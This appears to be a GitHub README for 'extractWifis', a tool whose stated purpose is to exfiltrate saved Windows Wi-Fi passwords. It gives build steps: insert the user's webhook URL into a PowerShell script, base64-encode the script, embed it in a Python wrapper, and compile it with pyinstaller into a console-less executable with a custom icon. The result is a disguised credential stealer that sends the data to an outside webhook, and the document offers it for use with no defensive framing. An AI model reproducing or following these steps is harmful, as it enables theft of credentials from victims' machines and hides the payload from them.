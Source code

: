 # extractWifis

Exfiltrate all Windows saved Wi-Fi passwords

## Requirements

1. On your Windows machine install Python https://www.python.org/downloads/
 
2. Install pyinstaller `C:\> pip install pyinstaller`


## Instructions

1. Open  `getwifis.ps1` and replace `WEBHOOK_URL_HERE` with your webhook url.

2. Encode Powershell (Linux command):
```bash
iconv -f ASCII -t UTF-16LE getwifis.ps1 | base64 -w0
```

3. Open `script.py` and replace `B64_HERE` with your base64 code.

4. Create executable
```cmd
c:\> pyinstaller --onefile --noconsole --icon=icon.ico script.py
```

Executable will be on `dist` folder
